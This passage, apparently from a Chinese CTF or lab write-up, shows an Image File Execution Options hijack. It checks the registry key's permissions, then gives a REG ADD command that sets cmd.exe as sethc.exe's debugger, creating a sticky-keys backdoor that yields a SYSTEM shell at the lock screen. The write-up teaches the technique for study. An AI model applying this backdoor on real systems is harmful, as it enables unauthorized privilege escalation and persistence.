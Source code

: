 这里想到了上面的提示镜像劫持（IFEO），先看看注册表权限

```
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

![QQ_1722148449148](images/14.png)

这里发现普通用户都可以创建

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

设置镜像劫持shift后门（也可以设置其他的），然后锁定用户五次shift以管理员身份打开了cmd（在锁定用户后，粘滞键快捷方式在登录屏幕运行，而登录屏幕上的任何命令提示符都运行在更高的系统权限级别。这是因为在Windows登录屏幕上执行的任何命令都被视为系统级操作，通常具有更高的权限。而在用户会话中，启动的命令提示符默认是以当前用户权限级别运行的，而不是管理员权限）
